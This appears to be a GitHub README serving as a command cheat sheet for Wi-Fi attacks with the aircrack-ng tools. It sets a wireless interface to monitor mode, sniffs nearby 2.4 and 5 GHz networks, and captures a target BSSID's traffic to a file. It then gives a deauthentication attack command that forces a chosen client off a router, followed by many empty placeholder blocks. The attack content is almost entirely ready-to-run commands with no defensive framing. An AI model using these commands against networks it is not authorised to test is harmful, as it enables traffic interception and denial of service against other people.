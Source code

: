 # My Interface Name is wlan1, Your interface Name may be diffrent
### see wireless network command
```
iwconfig
```
### see wireless network iP Aadress command
```
ifconfig
```

### disable network interface 
```
ifconfig wlan1 down
```
### kill network manager
```
airmon-ng check kill
```
### change interface `managed` mode to `monitor` mode
```
iwconfig wlan1 mode monitor
```
### Enable Network Interface
```
ifconfig wlan1 up
```
&nbsp;

---
&nbsp;
# Packet Sniffing

### sniff network around us `2.4 GHz frequency only`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### caputre data into a file `fileName` it`s a file name
```
airodump-ng --bssid @1 --channel @2 --write fileName wlan1
```

@1 → `BSSID` of target

@2 → Channel no. of target

### to read captured data captured in `fileName.cap`, open wireshark application
```
wireshark
```
&nbsp;

---
&nbsp;
# DE-Authenticatiob Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
